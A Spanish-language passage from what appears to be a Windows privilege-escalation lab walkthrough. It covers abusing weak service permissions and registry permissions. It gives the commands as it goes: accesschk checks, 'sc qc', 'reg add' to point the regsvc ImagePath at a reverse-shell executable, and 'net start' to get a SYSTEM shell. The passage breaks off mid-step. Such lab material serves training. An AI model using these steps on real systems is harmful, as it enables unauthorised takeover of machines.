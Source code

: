 Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA

```
net start filepermsvc
```

----

##  Explotaciones de servicio permisos de registro débiles

Consulte el servicio " regsvc"  y observe que se ejecuta con privilegios de SISTEMA (SERVICE_START_NAME) .

```
sc qc regsvc
```

Con accesschk.exe, tenga en cuenta que el grupo "NT AUTHORITY\INTERACTIVE" (esencialmente todos los usuarios conectados) puede escribir la entrada de registro para el servicio regsvc

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescriba la clave de registro de ImagePath para que apunte al ejecutable reverse.exe que creó:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA:

```
net start regsvc
```

-----

## Exploits de servicio permisos de servicio inseguros

Use accesschk.exe para verificar los permisos de la cuenta de "usuario" en el servicio "daclsvc":

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

Tenga en cuenta que la cuenta de "usuario" tiene permiso para cambiar la configuración del servicio (SERVICE_CHANGE_CONFIG).  
Consulte el servicio y tenga en cuenta que se ejecuta con privilegios de SISTEMA (SERVICE_START_NAME):

```
sc qc daclsvc
```

Modifique la configuración del servicio y establezca BINARY_PATH_NAME (binpath) en el ejecutable reverse.exe que creó:
